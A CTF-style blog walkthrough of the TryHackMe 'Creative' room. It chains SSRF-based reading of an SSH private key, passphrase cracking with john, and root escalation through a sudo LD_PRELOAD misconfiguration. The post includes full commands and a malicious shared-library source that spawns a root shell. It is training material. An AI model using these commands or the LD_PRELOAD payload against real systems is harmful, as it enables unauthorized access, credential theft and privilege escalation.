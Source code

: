 ```yaml
---
date: 2024-04-17T22:14:41-05:00
# description: ""
image: "/images/THM-Creative/Creative.svg"
showTableOfContents: true
tags: ["TryHackMe"]
categories: ["Writeups"]
title: "THM: Creative"
type: "post"
---
```


* Platform: TryHackMe
* Link: [Creative](https://tryhackme.com/r/room/creative)
* Level: Easy
* OS: Linux
---

The challenge begins with a static website that is unexploitable. Through subdomain enumeration, a URL testing application is uncovered, susceptible to SSRF. However, full exploitation is only possible after discovering an internally exposed port. This access allows for file reading on the server, leading to the retrieval of an SSH private key. Yet, this alone isn't enough to establish a foothold. Success is achieved by cracking the obtained SSH key's hash, granting access to the target system. Finally, privilege escalation is done by exploiting the `LD_PRELOAD` environment variable.

Target IP - `10.10.119.61`

## Scanning 

```
nmap -sC -sV -oA nmap/Creative 10.10.119.61
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 20:52 CDT
Nmap scan report for 10.10.119.61
Host is up (0.27s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.97 seconds
```

We have two ports open, 22 (SSH) and 80 (Nginx). We are redirected to `http://creative.thm`. 

```
sudo echo "10.10.119.61 creative.thm" | sudo tee -a /etc/hosts
```

## Enumeration

The website appears to be rather simple, without anything exploitable. 

Directory enumeration and source code review do not yield anything.

Using ffuf for subdomain enumeration we find `beta`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fc 404 -t 100 -u http://creative.thm -H "Host: FUZZ.creative.thm" -ic -fs 178
```

![Beta subdomain found](/images/THM-Creative/beta-subdomain.png)

After adding it to the `/etc/hosts` file, we visit it and it turns out to be a URL tester.

![URL tester website](/images/THM-Creative/beta-url-tester.png)

Submitting `http://127.0.0.1:80` brings back the content of the main page without the styling, hinting to SSRF.

![URL tester SSRF 1](/images/THM-Creative/url-test.png)

Trying `http://creative.thm/etc/passwd` does not work. and returns `Dead`.

![File read attempt failed](/images/THM-Creative/file-read-fail.png)

Let's try to discover the internal open ports on the target.

```
ffuf -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -w <(seq 1 65535) -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13
```

![Internal ports fuzzing](/images/THM-Creative/ffuf-cmd.png)

Port `1337` is discovered, by submitting `http://127.0.0.1:1337/` we are able to list the directories on the server.

![Directories on the server](/images/THM-Creative/server-directories.png)

In Burp we explore the file system and see what we can find. Let's go to `/home`.

![Home directory via SSRF](/images/THM-Creative/home-dir.png)

In `/home` we find a directory for `saad`. Going deeper with `http://127.0.0.1:1337/home/saad/` we discover the `.shh` folder and the user flag `user.txt`. 

Using `http://127.0.0.1:1337/home/saad/user.txt` will reveal the flag.

## Initial Foothold

By submitting `http://127.0.0.1:1337/home/saad/.ssh/id_rsa` we can grab the SSH key of the user.

![saad user SSH key](/images/THM-Creative/saad-ssh-key.png)

> Don't forget to set the correct permissions on the key with `chmod 600`.

Attempting to log in via SSH fails because we still need the passphrase of the user.

```
ssh saad@creative.thm -i id_rsa
```
![SSH login failed](/images/THM-Creative/ssh-fail.png)

We can use `john` to find the passphrase by converting the key into a crackable hash.

```
ssh2john id_rsa > hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Hash cracking to recover passphrase](/images/THM-Creative/passphrase.png)

The passphrase is found and we can now login.

![Initial foothold via SSH login](/images/THM-Creative/foothold.png)

## Privilege Escalation

One of the things we should always check is the `.bash_history` file. It reveals the account password for `saad`.

![Account password recovered](/images/THM-Creative/system-password.png)

With that password we are able to run `sudo -l`. The user is able to run `/usr/bin/ping` as root.

![Sudo -l command](/images/THM-Creative/sudo-l.png)

There is not much we can do with `ping`. We could try to replace the binary with a malicious one if we had write permissions to `/usr/bin/` but that is not the case, all the files are owned by root.

![Ping binary permissions](/images/THM-Creative/ping-binary.png)

Our next lead is the environment variable `LD_PRELOAD`.

> The `env_keep+=LD_PRELOAD` entry in the sudo configuration suggests that `saad` is allowed to preserve the `LD_PRELOAD` environment variable when running sudo commands. This could potentially be leveraged for loading malicious shared libraries.


`LD_PRELOAD` is an environment variable in Linux and other Unix-like operating systems. It allows a user to specify a list of additional shared libraries to preload before all others when a program is executed.

A great article about `Linux Privilege Escalation using LD_Preload` is available [here](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/). 

1. We go to `/tmp` and create a `shell.c` file.

```
cd /tmp
nano shell.c 
```

Here is the content of my file, I modified the one from the article because I was having issues during the compilation.

```C
#include <stdio.h>
#include <unistd.h> // Include this header for setuid() and setgid() functions
#include <stdlib.h>

void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

2. We compile and link `shell.c` into a shared library named `shell.so`

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![Shared library permissions](/images/THM-Creative/shared-library.png)

3. Finally we execute the `ping` command with the `LD_PRELOAD` environment variable set to `/tmp/shell.so` and we get to root.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

![Privilege escalation and root flag](/images/THM-Creative/root-flag.png)

This was a pretty straightforward challenge, showing how one vulnerability can lead to an exploitation chain. The challenge also highlighted how misconfigurations can be used to an attacker's advantage. Until the next one, keep learning!
